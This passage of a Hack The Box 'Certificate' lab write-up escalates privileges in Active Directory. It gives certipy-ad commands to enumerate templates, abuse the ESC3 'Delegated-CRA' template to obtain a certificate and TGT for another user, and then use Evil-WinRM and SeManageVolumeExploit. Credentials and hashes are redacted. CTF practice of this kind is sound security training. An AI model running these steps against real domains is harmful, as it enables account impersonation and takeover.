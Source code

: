 ```shell
# enumerate CA & templates
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad find -u 'Lion.SK' -p '[REDACTED]' -dc-ip 10.10.11.71 -vulnerable -stdout
```

We can observe the vulnerable template called `Delegated-CRA` and is vulnerable to `ESC3`
> A template allowing domain CRA Managers to enroll certificates with EKU that can be used to impersonate other accounts; exported PFX and used it to obtain TGT/credentials.

> **Note**: If we attempt to exploit it to obtain the Administrator access it’ll fail so we need to continue exploring other options.
> After some research we found another interesting user `ryan.k`, who is member of the group `DOMAIN STORAGE MANAGERS`.

Request cert using vulnerable template:
```shell
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '[REDACTED]' -dc-ip 10.10.11.71 -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '[REDACTED]' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'ryan.k.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
```

**Output**:
```shell
[*] Found template: Delegated-CRA (Enrollment Rights: CERTIFICATE\Domain CRA Managers)
[*] Request ID is 21
[*] Wrote certificate and private key to 'ryan.k.pfx'
[*] Got hash for 'ryan.k@certificate.htb': [REDACTED-HASH]
[*] Got TGT -> saved as ryan.k.ccache
```

### Post-Exploitation

Using Evil-winrm we opened a session with `Ryan.K`, and checking his privileges we found `SeManageVolume` privilege and this can be exploited with `SeManageVolumeExploit`.

> This exploit grant us full permission on `C:\` Drive, we attempt to access to the `Administrator` folder but unfortunately we cannot see the contents of the `root.txt` although we can access the Administrator desktop.

![7](/assets/img/favicons/certificate-htb/SeVolumePriv.png)